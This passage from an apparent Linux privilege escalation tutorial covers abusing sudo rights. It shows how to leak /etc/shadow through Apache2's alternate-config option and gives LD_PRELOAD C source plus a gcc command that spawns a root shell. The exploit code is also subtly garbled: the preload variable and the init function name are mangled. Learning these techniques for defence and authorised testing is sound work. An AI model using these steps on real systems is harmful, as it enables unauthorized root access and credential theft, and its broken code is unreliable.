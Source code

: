 [https://gtfobins.github.io/](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

**Leverage application functions**

Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server.

In this case, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (`-f` : specify an alternate ServerConfigFile).

![](https://i.imgur.com/rNpbbL8.png align="left")

Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file.

**Leverage LD\_PRELOAD**

On some systems, you may see the LD\_PRELOAD environment option.

![](https://i.imgur.com/gGstS69.png align="left")

LD\_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD\_PRELOAD. If the "env\_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD\_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD\_PRELOAD (with the env\_keep option)
    
2. Write a simple C code compiled as a share object (.so extension) file
    
3. Run the program with sudo rights and the LD\_PRELOAD option pointing to our .so file
    

The C code will simply spawn a root shell and can be written as follows;

#include &lt;stdio.h&gt;  
#include &lt;sys/types.h&gt;  
#include &lt;stdlib.h&gt;

void *init() {  
unsetenv("LD*PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

![](https://i.imgur.com/HxbszMW.png align="left")
